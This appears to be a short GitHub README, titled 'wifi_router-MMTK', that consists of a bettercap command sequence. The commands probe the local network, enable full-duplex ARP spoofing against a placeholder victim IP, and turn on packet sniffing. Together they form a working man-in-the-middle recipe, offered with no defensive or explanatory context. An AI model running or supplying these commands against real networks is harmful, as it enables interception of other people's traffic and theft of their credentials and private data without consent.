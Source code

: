 # wifi_router-MMTK

     bettercap -iface wlan0
     help
     net.probe on 
     net.show

    
    help arp.spoof
    arp.spoof.fullduplex true 
    
    set arp.spoof.targets [ vigtim ip]
    set arp.spoof on
    net.sniff on

    


